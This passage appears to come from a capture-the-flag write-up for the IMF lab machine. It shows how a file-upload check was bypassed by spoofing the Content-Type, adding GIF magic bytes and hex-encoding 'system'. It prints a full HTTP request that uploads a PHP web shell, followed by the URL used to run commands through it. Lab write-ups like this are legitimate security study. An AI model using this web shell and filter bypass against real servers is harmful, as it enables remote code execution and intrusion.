 ### WAF and Filter Bypass

The upload functionality had multiple protections:
1. Content-Type validation
2. File extension filtering
3. WAF blocking dangerous functions

**Bypass Strategy**:
- Changed Content-Type to `image/jpg`
- Added GIF magic bytes
- Encoded `system` function in hexadecimal

```http
POST /imfadministrator/uploadr942.php HTTP/1.1
Host: imf.com
Content-Type: multipart/form-data; boundary=----geckoformboundary...

------geckoformboundary...
Content-Disposition: form-data; name="file"; filename="cmd.gif"
Content-Type: image/jpg

GIF8;
<?php 
    "\x73\x79\x73\x74\x65\x6d"($_GET['cmd']);
?>
------geckoformboundary...
```

### File Identifier

Upload response revealed file identifier:
```html
File successfully uploaded.
<!-- cc54578bb075 -->
```

### Command Execution

![Command Execution](images/Pasted%20image%2020251005175251.png)

**URL**: `http://imf.com/imfadministrator/uploads/195df5ad74e5.gif?cmd=id`

## Initial Access
